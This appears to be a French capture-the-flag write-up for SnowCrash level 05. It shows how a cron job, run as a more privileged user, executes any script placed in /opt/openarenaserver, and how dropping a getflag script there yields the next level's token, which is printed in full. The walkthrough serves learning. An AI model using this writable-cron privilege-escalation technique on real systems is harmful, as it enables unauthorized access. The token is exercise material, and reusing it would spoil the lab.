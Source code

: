 # 05 - Tache planifiée: Cron

- On se connecte en tant que level05, sur notre shell s'affiche `You have a new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
```

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- Il s'agit d'une instruction [Cron](https://fr.wikipedia.org/wiki/Cron). Elle indique que toutes les deux minutes, `/usr/sbin/openarenaserver` sera exécutée par flag05. 
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
```
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```

- Le script exécute `bash -x` sur tous les éléments présents dans le répertoire `/opt/openarenaserver/`, avec une limite fixe de 5 secondes pour chaque exécution. Ensuite, l'élément est supprimé, du coup:
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```
level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```